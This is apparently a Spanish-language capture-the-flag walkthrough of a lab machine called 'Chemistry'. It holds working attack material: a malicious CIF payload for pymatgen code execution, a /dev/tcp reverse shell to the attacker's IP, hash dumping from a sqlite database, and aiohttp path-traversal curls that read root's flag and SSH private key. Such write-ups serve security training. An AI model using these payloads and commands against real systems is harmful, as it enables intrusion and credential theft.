___
# Máquina Chemistry

IP atacante: 10.10.17.184
IP víctima: 10.129.231.170

Comprobamos que tenemos conexión a la máquina enviando un ping

```bash
ping -c 1 10.129.231.170
```



El ttl es 63, lo que significa que estamos antes una máquina Linux

___
# 1. Enumeración

Realizamos un escaneo de con `nmap` para ver si tiene puertos abiertos

```bash
nmap -p- --open -sS -sV -T5 -vvv -n -Pn 10.129.231.170 -oG scanPorts
```



Recolectamos la siguiente información sobre los puertos abiertos

- Puerto 22 -> SSH OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 | Abierto 
- Puerto 5000 -> HTTP Werkzeug httpd 3.0.3 |

Buscamos el launchpad para saber a que nos estamos enfrentando -> ``Ubuntu Oracular``

Entrando a la página nos encontramos con un panel de login/registro



Al registrarnos y loguearnos nos saldrá un apartado para subir archivos .cif y visualizarlos



# 2. Explotación

Podemos buscar payloads de "malicious cif file" para subirlos a la página. Nos encontramos con el siguiente:

https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f

```cif
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].lo[...]


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

Como podemos observar, se ejecutará código en la parte que dice `("os").system ("touch pwned")`. Lo cambiamos por un ``ping -c 1 10.10.17.184`` para ver si realiza una traza icmp y nos lo muestr[...]

```bash
tcpdump -i tun0 icmp -n 

# -i: interface
# -n: No aplicar resolución DNS
```



Subimos el archivo ``.cif`` malicioso (en mi caso ``example.cif``)



Al darle a View nos saldrá un Internal Server Error



Pero al ver el tcpdump, nos mostrará que sí se ejecutó el ping, por lo que tenemos ejecución remota de comandos por el payload (RCE).



Dado esto, nos mandamos una reverse shell por el puerto 443



```bash
/bin/bash -c \'/bin/bash -i >& /dev/tcp/10.10.17.184/443 0>&1\'
# Recomendable escapar las comillas siempre que algo requiera comillas simples y esté dentro de comillas dobles "\'\'"
```



Ya que tenemos una shell, aplicamos un tratamiento tty para que sea más cómodo

```bash
script /dev/null -c bash
# Ctrl + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
stty rows 41 columns 189
```

Explorando el contenido disponible, podemos ver credenciales dentro del archivo app.py y que usa sqlite.



Buscamos un archivo .db y el binario sqlite3 para abrirlo y poder enumerar la base de datos

```bash
find . -name database.db
# output: ./instance/database.db

which sqlite3
# output: /usr/bin/sqlite3

sqlite3 ./instance/database.db
```



Encontramos usuarios con sus respectivas contraseñas hasheadas, las cuales podemos desencriptar con `hashcat` o usando herramientas en línea. Usaremos la de rosa porque es un usuario del sistem[...]



`rosa|63ed86ee9f624c7b14f1d4f43dc251a5`



Ya que tenemos el usuario y la contraseña, nos conectamos por SSH porque el puerto 22 esta abierto.

```bash
ssh rosa@10.127.231.170
# unicorniosrosados
```

Logramos loguearnos y tenemos la flag del usuario



# 3. Escalada de privilegios

Seguimos el proceso para ver posibles formas de escalar privilegios

```bash
find / -perm -4000 2>/dev/null
getcap -r / 2>/dev/null
ss -nltp # Para ver otros puertos usandose localmente
```

# 2 formas

Con ss podemos ver que hay un puerto 8080 activo, por lo que revisamos los procesos del sistema





El usuario `root` está ejecutando un monitoring_site localmente por el puerto 8080. Enviamos un `curl -I` para ver las cabeceras.
Tip: Cuando se ejecuta un servicio como root, en el navegador se pueden ver los archivos internos privilegiados | Ejemplo: file:///etc/passwd

 Y podemos observar que el servicio y la versión es ``aiohttp/3.9.1``

Encontramos el siguiente exploit para dicho servicio: https://github.com/wizarddos/CVE-2024-23334

1. Este servicio es vulnerable a Path Traversal, por lo que de esta forma podrías intentar leer directamente la flag de root o copiar la clave ssh para loguearnos como root.
Para explotar dicha vulnerabilidad, debemos hacer un curl partiendo de un directorio ya existente para aplicar el path traversal, en este caso será /assets/

```bash
curl -s -X GET "http://localhost:8080/assets/../../../../../root/root.txt" --path-as-is
# --path-as-is -> Para matener los carácteres ../
```



2. Otra forma es ver si tiene una clave privada en su directorio ssh

```bash
curl -s -X GET "http://localhost:8080/assets/../../../../../root/.ssh/id_rsa" --path-as-is
```



Copiamos dicha clave a un archivo agregando lo siguiente al comando anterior `> /tmp/id_rsa`
Agregamos permisos `600` para que solo el propietario pueda leer y escribir

Nos conectamos por ssh usando dicha clave:

```bash
ssh -i id_rsa root@localhost
```


